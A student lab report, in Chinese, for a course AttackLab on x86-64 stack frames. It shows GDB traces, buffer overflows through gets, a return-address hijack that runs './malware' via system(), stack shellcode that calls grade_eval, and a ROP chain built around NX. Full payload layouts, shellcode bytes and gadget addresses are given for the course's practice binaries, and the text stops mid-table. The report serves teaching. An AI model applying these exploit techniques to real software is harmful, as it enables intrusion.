








# Lab 3：AttackLab 实验报告

- 姓名：王兴安
- 学号：25803090187

## 一、实验目的与基本思路

本实验围绕 x86-64 程序的函数调用、栈帧结构与缓冲区溢出展开，通过 GDB 调试和反汇编分析，观察程序运行过程中寄存器及栈内存的变化，理解缓冲区溢出对程序执行流程的影响。

实验使用课程提供的 dark-calc、dark-calc-nx 和 dark-log 三个程序，结合不同的栈空间配置和保护机制，进一步理解 NX 保护、ROP 技术以及 Stack Protector 的工作原理。

## 二、第 1 题：观察 input 栈帧

### 2.1 x86-64 的调用约定与栈帧

x86-64 System V ABI 规定：前六个整数参数放在 `rdi`、`rsi`、`rdx`、`rcx`、`r8`、`r9`，整数和指针类型的返回值通常通过 `rax` 返回；`rbx`、`rbp`、`r12`–`r15` 由被调用者保存，其余通用寄存器由调用者保存。`rsp` 不属于普通的 caller-saved 寄存器：调用者和被调用者共同维护它，函数返回时必须恢复到调用前的值。栈从高地址向低地址增长，`rsp` 指向栈顶，`rbp` 通常作为当前帧的固定参照。

`call` 的行为可以拆成两步：把下一条指令的地址压栈，然后跳到目标地址。`ret` 的行为相反：从栈顶弹出 8 字节装入 `rip`，再把 `rsp` 加 8。函数序言 `push rbp; mov rbp,rsp; sub rsp,N` 的作用分别是保存调用者的帧指针、建立当前帧、为局部变量留空间；`leave` 等价于 `mov rsp,rbp; pop rbp`。

在本实验提供的二进制中，`input` 通过 `sub rsp,0x10` 为 16 字节局部缓冲区分配空间，并保留 `rbp` 作为帧指针；局部变量相对 `rbp` 的偏移因此是固定的。这个分配方式与当前编译结果和栈对齐要求有关，不能据此推断所有编译器、所有局部变量都会采用相同的空间分配。

### 2.2 input 的序言与局部空间

`input` 的反汇编是：

```text
0x401977 <input+0>: push rbp
0x401978 <input+1>: mov  rbp,rsp
0x40197b <input+4>: sub  rsp,0x10
0x40197f <input+8>: mov  esi,0xf
```

`sub rsp,0x10` 分配 16 字节，正好是 `char expression[MAXLEN+1]` 的大小。局部数组的地址由 `lea rax,[rbp-0x10]` 给出，所以缓冲区从 `rbp-0x10` 开始，向高地址依次是：

| 相对 `rbp` | 内容 | 大小 |
| --- | --- | --- |
| `rbp-0x10` | `expression[16]` | 16 字节 |
| `rbp` | 调用者的 `rbp` | 8 字节 |
| `rbp+8` | 返回地址 | 8 字节 |

这里有一个容易忽略的细节：`sub rsp,0x10` 分配的是 16 字节，与 `expression[16]` 的大小一致。这个数值来自当前二进制对局部数组和栈对齐的具体处理，不能据此推断其他编译器或优化级别都会采用相同的分配方式。

### 2.3 rbp 与 rbp+8 的来源

在 `main` 的 `0x401acc` 处执行 `call input` 前，`rsp=0x721000800ff0`；`call` 压入返回地址后，`rsp` 变为 `0x721000800fe8`，栈顶保存 `0x401ad1`。这个地址是 `call` 后面 `main` 中的下一条指令地址，程序随后跳转到 `input`。

进入 `input` 后，函数序言中的 `push rbp` 将 `main` 原来的 `rbp` 压入栈中，`mov rbp, rsp` 再将当前栈顶地址赋给 `rbp`。这样，`input` 就建立了自己的栈帧。其中，`[rbp]` 保存的是调用者原来的 `rbp`，`[rbp+8]` 保存的是返回地址 `0x401ad1`。

### 2.4 leave 与 ret

在 `0x4019d5`（`leave`）停下时，`rsp=0x721000800fd0`、`rbp=0x721000800fe0`，缓冲区里是输入 `1+2\0`。执行 `leave` 相当于 `mov rsp,rbp; pop rbp`：`rsp` 回到 `0x721000800fe0`，弹出旧 `rbp` 后变成 `0x721000800fe8`，正好指向返回地址。再执行 `ret`，`rip` 变成 `0x401ad1`，`rsp` 和 `rbp` 都回到 `0x721000800ff0`，与调用前一致。

`leave` 和 `ret` 容易被合称为“返回”，但两者分工不同：`leave` 只拆帧，`ret` 才跳转。`leave` 执行后 `rbp` 已经属于调用者，不能再用“当前 `rbp` 减 16”去找刚才的局部数组，这是观察返回阶段时最容易混淆的地方。

### 2.5 实验结果

各条指令执行前后的寄存器变化如下表所示。

| 已完成的动作 | `rip` | `rsp` | `rbp` |
| --- | --- | --- | --- |
| 到达 `main` 的 `call` | `0x401acc` | `0x721000800ff0` | `0x721000800ff0` |
| `call` | `0x401977` | `0x721000800fe8` | `0x721000800ff0` |
| `push rbp` | `0x401978` | `0x721000800fe0` | `0x721000800ff0` |
| `mov rbp,rsp` | `0x40197b` | `0x721000800fe0` | `0x721000800fe0` |
| `sub rsp,0x10` | `0x40197f` | `0x721000800fd0` | `0x721000800fe0` |
| `leave` | `0x4019d6` | `0x721000800fe8` | `0x721000800ff0` |
| `ret` | `0x401ad1` | `0x721000800ff0` | `0x721000800ff0` |

由表可知，`input` 函数调用前与返回后的 `rsp`、`rbp` 均相同，且 `ret` 执行后的 `rip` 指向 `main` 中 `call` 后的下一条指令，与前面的栈帧分析一致。





## 三、第 2 题：缓冲区溢出与不同长度输入

### 3.1 gets 的语义与长度计算

`gets(char *s)` 从标准输入读取字符，遇到换行或 EOF 时结束读取，并在末尾添加 `\0`。该函数不检查目标缓冲区的大小，因此输入过长时会覆盖相邻内存。

本实验中，`expression` 的大小为 16 字节。设输入字符数为 n，则实际写入 n+1 字节，超出缓冲区的部分会继续写入栈上的其他数据。

根据 GDB 观察到的栈帧布局，`expression` 位于 `rbp-0x10`，其后依次是保存的 `rbp` 和返回地址：

```text
expression[0..15] → saved rbp（+16..+23） → 返回地址（+24..+31）
```

输入 20 个字符时，共写入 21 字节，覆盖保存的 `rbp` 的低 5 字节；输入 32 个字符时，共写入 33 字节，保存的 `rbp` 和返回地址均被覆盖，末尾的 `\0` 写入偏移 +32 的位置。

### 3.2 20 个 A：保存的 rbp 被部分覆盖

输入 20 个 A 后，程序输出 `0`。随后再次读取输入时遇到 EOF，程序输出 `42_is_The_Ànswer`，最终退出码为 0。

GDB 中观察到的内存变化如下：

```text
保存的 rbp：
0x0000721000800ff0 → 0x0000720041414141

返回地址：
0x0000000000401ad1 → 0x0000000000401ad1
```

原来的 `rbp` 按小端序存放为：

```text
f0 0f 80 00 10 72 00 00
```

前 16 个 A 填满缓冲区，后面 4 个 A 覆盖保存的 `rbp` 的低 4 字节，`gets` 添加的 `\0` 覆盖第 5 字节，最终变成：

```text
41 41 41 41 00 72 00 00
```

因此，保存的 `rbp` 变成了 `0x0000720041414141`，而返回地址没有受到影响。

`input` 返回后，`main` 继续执行。后续代码没有再通过这个被覆盖的 `rbp` 访问局部变量，因此程序仍能继续运行。程序将前 15 个 A 交给 shell 进行计算，输出结果为 `0`；再次读取输入遇到 EOF 后，进入退出分支。

终端日志中，`0` 出现在 `Enter an expression` 之前。这是因为标准输出被重定向到管道后采用块缓冲，主进程的 `printf` 内容尚未刷新，而 `system` 启动的命令输出先写入了管道。

### 3.3 32 个 A：返回地址被覆盖

输入 32 个 A 后，保存的 `rbp` 和返回地址均被覆盖为 `0x4141414141414141`。程序执行到 `input` 的 `ret` 指令时发生段错误，GDB 显示：

```text
rip = 0x4019d6
rsp = 0x721000800fe8
rbp = 0x4141414141414141
→ SIGSEGV
```

此时返回地址已经变成非规范地址 `0x4141414141414141`，无法正常作为指令地址使用，程序在执行 `ret` 时发生异常。程序并没有跳转到该地址执行指令。

此时终端没有输出相应内容，是因为程序在刷新标准输出缓冲区之前就发生了崩溃。

### 3.4 全局缓冲区与另一组输入

`input` 函数中还使用了 `strcpy(command_buf, expression)`，其中 `command_buf` 是一个大小为 31 字节的全局数组。输入 32 个字符时，加上末尾的 `\0` 共需要 33 字节，会有 2 字节写入数组之外。

另外，我使用字符 `1` 进行了 20 个和 32 个字符的对比测试。输入 20 个 `1` 时，终端显示：

```text
Executing: echo $((111111111111111))
```

程序输出 15 个 `1`，随后遇到 EOF，以状态码 0 退出。输入 32 个 `1` 时，程序直接出现 `Segmentation fault`，程序因 SIGSEGV 终止，shell 记录的状态为 139，没有看到 `Executing` 输出。两种情况下的终端输出如图 3-1 所示。

使用保存的 32 个 `1` 的输入文件重新进行 GDB 调试，发现 `gets` 返回后，保存的 `rbp` 和返回地址均已变成 `0x3131313131313131`。在 `ret` 执行前，`[rsp-8]` 和 `[rsp]` 中的值也都是 `0x3131313131313131`。继续执行后，程序在 `input` 的 `ret` 指令（`0x4019d6`）处发生段错误。



## 四、第 3 题：控制流劫持与执行 malware

### 4.1 程序执行过程与利用思路

程序先通过 `gets` 读取输入，再使用 `strcpy(command_buf, expression)` 将输入复制到全局缓冲区，之后才调用 `eval`。正常情况下，`eval` 会将输入包装成 `echo $((...))`，再通过 `system` 执行。

本题中，输入不仅会被复制到 `command_buf`，还可以覆盖 `input` 函数的保存现场和返回地址。由于 `strcpy` 在函数返回前已经执行，只要将输入开头设置为 `./malware`，`command_buf` 中就会保存对应的命令字符串。

因此，可以利用覆盖后的返回地址跳转到程序中已有的指令，设置 `system` 的参数并调用 `system@plt`，从而执行 `command_buf` 中的命令。整个过程使用的是程序已有的指令，没有另外写入机器码。

### 4.2 Payload 布局

`expression` 占 16 字节，保存的 `rbp` 位于偏移 16 处，返回地址位于偏移 24 处。根据这个栈帧布局，最终使用的 payload 共 47 字节，具体分布如下。

| 偏移 | 内容 | 作用 |
| --- | --- | --- |
| 0–9 | `./malware\0` | 使 `command_buf` 保存 `./malware` |
| 10–15 | 6 个 `A` | 填满缓冲区 |
| 16–23 | `0x721000800ff0` | 覆盖 saved rbp，指向伪造栈帧 |
| 24–31 | `0x401a6b` | 跳转到设置参数并调用 `system` 的指令序列 |
| 32–39 | `0xdeadbeefcafebabe` | 作为 `pop rbp` 的占位值 |
| 40–46 | `0x4019b9` 的低 7 字节 | 跳转到 `exit(0)` 指令序列 |

`payload.py` 直接输出二进制字节，运行命令中通过管道送入程序；`gets` 遇到输入中的 NUL 不会因此结束读取，而 `strcpy(command_buf, expression)` 会在源字符串的第一个 NUL 处停止，因此 `command_buf` 中只保留 `./malware`。本题没有使用 `memcpy`。

程序跳转到 `0x401a6b` 后，先执行 `mov edi,0x6030d0`，将 `command_buf` 的地址放入 `rdi`，随后调用 `system@plt`。此时 `rdi` 指向的字符串为 `./malware`。

`system` 返回后，程序继续执行 `eval` 中的后续指令，包括 `fflush(stdout)` 和 `leave; ret`。由于前面将 saved rbp 改成了 `0x721000800ff0`，执行 `leave` 时，`rsp` 会被设置到这个地址。接着 `pop rbp` 取出偏移 32 处的占位值，`ret` 则取出偏移 40 处的 `0x4019b9`，进入 `input` 中的 `mov edi,0; call exit@plt` 指令序列，最终以状态码 0 退出。

最终 payload 为 47 字节，与固定栈的可用空间有关。缓冲区起始地址为 `0x721000800fd0`，可写范围到 `0x721000800fff`，共 48 字节。由于 `gets` 会在输入末尾补充一个 `\0`，实际输入最多为 47 字节。因此，偏移 40–46 存放 `0x4019b9` 的低 7 字节，最后一个字节由 `gets` 补入。

调试过程中还尝试过一个较短的版本：直接跳转到 `input` 自己的 `ret`，利用 `strcpy` 返回后 `rdi` 仍为 `0x6030d0` 的情况调用 `system`，但实际退出状态为 2。由于 `rdi` 是 caller-saved 寄存器，不能保证函数调用后仍保留原值，最终改为使用 `eval` 中的 `mov edi,0x6030d0` 设置参数。

### 4.3 GDB 调试与执行结果

在 GDB 中，程序执行到 `0x401a6b` 时，寄存器状态为：

```text
rsp = 0x721000800ff0
rbp = 0x721000800ff0
```

执行 `mov edi,0x6030d0` 后，`edi` 变为 `0x6030d0`。继续执行到 `system@plt` 时，检查 `rdi` 指向的内容：

```text
(gdb) x/s $rdi
0x6030d0: "./malware"
```

这说明 `system` 获得了正确的命令字符串。执行完成后，程序继续运行 `fflush(stdout)`，随后通过伪造的栈帧进入 `exit(0)` 指令序列，最终正常退出。

`system@plt` 和 `exit@plt` 均为程序中的 PLT 入口，通过 GOT 完成后续跳转，因此 payload 使用的是程序本身的地址，不需要填写 libc 中的函数地址。

### 4.4 进程树与实验结果

执行过程中，`system` 启动 `/bin/sh -c ./malware`，随后由 shell 启动 `malware`。程序通过 `pstree` 和 `ps` 检查进程关系，确认祖先进程链中包含 `dark-calc`，并输出两条成功提示。

进程关系如下：

```text
dark-calc
└── sh -c ./malware
    └── malware
        └── pstree
```

最终 payload 长度为 47 字节，程序连续运行均输出两条成功提示，退出状态为 0。课程 workflow 根据标准输出中的 `You have successfully detonated the bomb! Congratulations!` 判断是否通过，本次运行满足要求。

运行现场见图 4-1。


## 五、第 4 题：x86-64 指令编码与长度分析

### 5.1 三条指令的机器码

x86-64 采用变长指令编码。本实验中，`main` 的前三条指令长度分别为 1、3、5 字节，机器码如下：

| 顺序 | 汇编 | 机器码 | 长度 | 地址区间 |
| --- | --- | --- | --- | --- |
| 1 | `push rbp` | `55` | 1 | `0x401ac3` |
| 2 | `mov rbp,rsp` | `48 89 e5` | 3 | `0x401ac4–0x401ac6` |
| 3 | `mov eax,0x0` | `b8 00 00 00 00` | 5 | `0x401ac7–0x401acb` |

其中，`push rbp` 的机器码为 `55`，占 1 字节；`mov rbp,rsp` 的机器码为 `48 89 e5`，其中 `48` 是 REX.W 前缀，`89` 是操作码，`e5` 是 ModRM 字节，对应 `mod=11`、`reg=100`（rsp）、`r/m=101`（rbp）；`mov eax,0x0` 则由 `b8` 和后面的 4 字节立即数组成，共 5 字节。

### 5.2 单步执行与地址变化

在 `main` 入口处连续执行三次 `si`，记录到的 `rip` 变化如下：

```text
0x401ac3 → 0x401ac4 → 0x401ac7 → 0x401acc
```

每次地址增量分别为 1、3、5，与三条指令的机器码长度一致。对应的内存内容如下：

```text
0x401ac3: 55
0x401ac4: 48 89 e5
0x401ac7: b8 00 00 00 00
0x401acc:            ← call input
```

前三条指令共占 9 字节，最后一条指令结束于 `0x401acb`，因此后面的 `call input` 从 `0x401acc` 开始。

## 六、第 5 题：页权限与栈空间执行

### 6.1 普通栈的页权限

程序使用虚拟地址访问内存，页表负责将虚拟地址映射到物理内存，并通过权限位控制页面的访问。x86-64 中，NX 位可以禁止从相应页面执行指令。通常情况下，代码段具有读、执行权限，而普通栈和堆只有读、写权限。

我先用一个独立的 C 程序检查内存权限。`readelf -lW` 显示程序的 `GNU_STACK` 为 `RW`，没有执行权限；运行时查看 `/proc/self/maps`，代码页为 `r-xp`，局部变量所在的栈页为 `rw-p`。将局部变量从 41 修改为 42 也能正常完成。

### 6.2 dark-calc 的固定栈

`dark-calc` 除了普通栈，还通过 `mmap` 建立了一段固定地址的内存映射。GDB 中查看到的映射如下：

```text
0x721000000000–0x721000001000  ---p
0x721000001000–0x721000801000  rwxp   8 MiB
0x721000801000–0x721000802000  ---p
```

反汇编 `init_fixed_stack` 可以看到，程序先申请一段指定地址的 RWX 内存，再将两端各 4 KiB 设置为 `PROT_NONE`。下面的代码块是根据反汇编整理的伪代码，`base` 是 `mmap` 的返回地址，后续 `mprotect` 和 `fixed_stack_top` 都基于它计算：

```c
base = mmap(0x721000000000, 0x802000,
     PROT_READ|PROT_WRITE|PROT_EXEC,
     MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED_NOREPLACE, -1, 0);

mprotect(base, 0x1000, PROT_NONE);
mprotect(base + 0x801000, 0x1000, PROT_NONE);

fixed_stack_top = base + 0x801000;
```

其中，`PROT_READ|PROT_WRITE|PROT_EXEC` 的值为 7，映射标志的值为 `0x100022`。中间的 8 MiB 区域具有读、写、执行权限，两端的保护页不可访问。

`fixed_stack_top` 被设置为 `0x721000801000`，`__wrap_main` 在调用 `main` 前将 `rsp` 设置到该位置。因此，后续函数使用的栈帧位于这段固定映射中。

需要注意的是，程序并没有修改普通栈的权限。`GNU_STACK` 仍然是 `RW`，普通 `[stack]` 仍然是 `rw-p`，具有执行权限的是另外建立的这段固定映射。

### 6.3 grade_eval 函数

课程程序中的 `grade_eval(int grade)` 在参数为 4 时会输出：

```c
printf("\n\033[31m Hope %c will be your grade! \n",
       4 - grade + 'A');
```

根据 x86-64 调用约定，第一个整数参数通过 `edi` 传递。我在 GDB 中执行：

```text
call (void) grade_eval(4)
```

程序输出：

```text
Hope A will be your grade!
```

返回后查看 `bt`，调用栈恢复到 `main`。这也确认了后面需要调用的函数入口地址和输出结果。

### 6.4 栈上代码与控制流

本题将 `input` 的返回地址改为缓冲区首地址 `0x721000800fd0`，在缓冲区中放入一段机器码，让程序设置 `grade_eval` 的参数并进入该函数。

使用的指令如下：

```text
bf 04 00 00 00        mov edi,4
68 b9 19 40 00        push 0x4019b9
68 87 1a 40 00        push 0x401a87
c3                    ret
```

其中，`0x401a87` 是 `grade_eval` 的入口，`0x4019b9` 是 `input` 中的 `mov edi,0; call exit@plt` 指令序列。

执行时，先将 `4` 放入 `edi`，再依次将 `0x4019b9` 和 `0x401a87` 压入栈中。最后执行 `ret`，进入 `grade_eval`。函数返回时，栈顶保存的地址为 `0x4019b9`，程序随后调用 `exit(0)` 退出。

这里没有使用普通的 `call rel32`。该指令的相对位移是 32 位有符号数，范围约为 ±2 GiB，而缓冲区与 `grade_eval` 的距离远超这个范围。

缓冲区地址为 `0x721000800fd0`，目标地址为 `0x401a87`，两者相差 `0x7210003ff549`。如果将 `call` 放在 `mov edi,4` 后面，位移需要从下一条指令地址 `0x721000800fda` 开始计算，实际距离为 `0x7210003ff553`，同样超出了范围。因此本次使用 `push` 和 `ret` 完成控制转移。

### 6.5 栈对齐问题

最初尝试调用 `grade_eval` 时，程序发生了段错误。由于当时没有保留原始 GDB 会话，后来按照第一版 shellcode 的结构重新构造 payload，在相同的程序中进行了复现。

GDB 显示，进入 `grade_eval` 时：

```text
rsp = 0x721000800ff0
```

此时 `rsp` 对 16 取模为 0，而按照 x86-64 ABI，函数入口处的 `rsp` 应满足 8 mod 16。

继续执行后，程序在 `__vfprintf_internal+160` 处发生 SIGSEGV，出错指令为：

```asm
movaps %xmm1, 0x10(%rsp)
```

当时 `rsp` 为 `0x721000800988`，计算得到目标地址 `0x721000800998`，对 16 取模为 8，不满足 `movaps` 的对齐要求。

调整后的 payload 将两个地址分别压栈，再通过 `ret` 进入 `grade_eval`。此时函数入口的 `rsp` 为 `0x721000800fe8`，对 16 取模为 8，符合 ABI 要求，函数可以正常执行。

### 6.6 最终 payload 与验收结果

最终 payload 共 32 字节，布局如下：

| 偏移 | 字节 | 含义 |
| --- | --- | --- |
| 0–4 | `bf 04 00 00 00` | `mov edi,4` |
| 5–9 | `68 b9 19 40 00` | `push 0x4019b9` |
| 10–14 | `68 87 1a 40 00` | `push 0x401a87` |
| 15 | `c3` | `ret` |
| 16–23 | `52`×8 | 覆盖保存的 `rbp` |
| 24–31 | `d0 0f 80 00 10 72 00 00` | 返回地址 `0x721000800fd0` |

在 GDB 中观察到的关键数据如下：

| 观察位置 | 结果 |
| --- | --- |
| `input` 的 `ret` 地址 | `0x4019d6` |
| `ret` 前 `rsp` | `0x721000800fe8` |
| `[rsp]` | `0x721000800fd0` |
| 单步后 `rip` | `0x721000800fd0` |
| 单步后 `rsp` | `0x721000800ff0` |
| 所在内存区域 | `rwxp` |
| 最终退出状态 | `0` |

单步执行 `ret` 后，`rip` 已经进入固定栈映射中的缓冲区。继续运行，程序输出 `Hope A will be your grade!`，最终以状态码 0 退出。

使用重定向和管道两种方式输入，连续运行 5 次，结果一致。

运行现场见图 6-1。



## 七、第 6 题：ROP 与 NX 下的代码复用

### 7.1 程序保护机制

`dark-calc-nx` 的 ELF 类型为 `EXEC`，不是 PIE，`GNU_STACK` 为 `RW`，栈不具有执行权限。

检查符号表，没有发现 `__stack_chk_fail`；反汇编中也没有 `fs:0x28` 的读取。`input` 函数的序言和尾声分别为 `push rbp; mov rbp,rsp; sub rsp,0x10` 和 `leave; ret`，没有看到 Canary 检查。因此，该程序没有启用 Stack Protector。

由于栈不可执行，不能像第 5 题那样直接将返回地址指向栈上的机器码。不过，该程序不是 PIE，代码段中的地址固定，可以利用其中已有的指令片段构造 ROP 链。

### 7.2 gadget 的查找

课程提示的 gadget 位于 `0x4019d0–0x401ae3`，对应 `__libc_csu_init` 附近的代码。反汇编发现，其末尾部分为：

```text
401a2a: 5b        pop rbx
...
401a32: 41 5f     pop r15
401a34: c3        ret
```

其中，`pop r15` 的机器码为 `41 5f`。从 `0x401a33` 开始执行时，CPU 读取到的字节变成了 `5f c3`，对应：

```asm
pop rdi
ret
```

因此，可以直接使用 `0x401a33` 作为 `pop rdi; ret` gadget。它并不是从原来的指令边界开始的，而是利用 x86-64 变长指令编码，从中间位置重新解码得到的。

### 7.3 ROP 链与栈对齐

本题通过覆盖返回地址，让程序依次执行已有的指令片段。最终的调用顺序为：

```text
pop rdi; ret
    ↓
4
    ↓
ret
    ↓
grade_eval
    ↓
ret
    ↓
pop rdi; ret
    ↓
0
    ↓
exit@plt
```

`pop rdi; ret` 用来设置函数参数：第一次将 `4` 放入 `rdi`，第二次将 `0` 放入 `rdi`，分别用于调用 `grade_eval(4)` 和 `exit(0)`。

两个地址为 `0x401636` 的纯 `ret` 指令用于调整栈位置。根据 x86-64 ABI，函数入口处的 `rsp` 应满足 8 mod 16。插入这两个 `ret` 后，`grade_eval` 和 `exit@plt` 的入口均满足这一要求。

### 7.4 Payload 与验收结果

最终 payload 长度为 88 字节，具体布局如下：

| 偏移 | 值 | 作用 |
| --- | --- | --- |
| 0–15 | `41`×16 | 填满缓冲区 |
| 16–23 | `42`×8 | 覆盖保存的 `rbp` |
| 24–31 | `0x401a33` | `pop rdi; ret` |
| 32–39 | `4` | 设置 `edi=4` |
| 40–47 | `0x401636` | `ret`，调整栈位置 |
| 48–55 | `0x401978` | `grade_eval` |
